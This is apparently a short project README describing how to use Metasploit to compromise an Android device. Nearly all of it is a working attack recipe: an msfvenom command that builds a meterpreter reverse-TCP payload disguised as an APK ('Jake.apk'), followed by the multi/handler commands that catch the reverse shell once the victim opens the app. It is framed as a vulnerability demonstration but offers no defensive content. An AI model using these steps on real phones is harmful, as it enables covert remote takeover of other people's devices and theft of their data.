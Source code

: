#_Metasploit_Process


The Main Goal of the Project is to show the vulnerability in a Android Device.

1.The downloaded file is extracted in a location.
2.The cmd is opened at the exact same location.
3.The msfconsole command line helps to open the framework in console.
4.Commands like "banner" and "help" can be used to know more about the framework.
5.A new cmd is opened in the same directory.
6.The following cmd line is typed to create payload  in a particular location "msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.181.139 LPORT=4444 R>C:\Users\Dell\Downloads\Jake.apk".
7.In the metasploit console "msfconsole" type commands to create tcp connection in payload "use exploit/multi/handler" and "set payload android/meterpreter/reverse_tcp".
8.Set LHOST and LPORT as set "LHOST 192.168.181.139" and "set LPORT 4444".
9.Confirm the connection established using "show options".
10.Finally,use "exploit" command to establish connection.


Note:The target has to be activated once to establish connection.


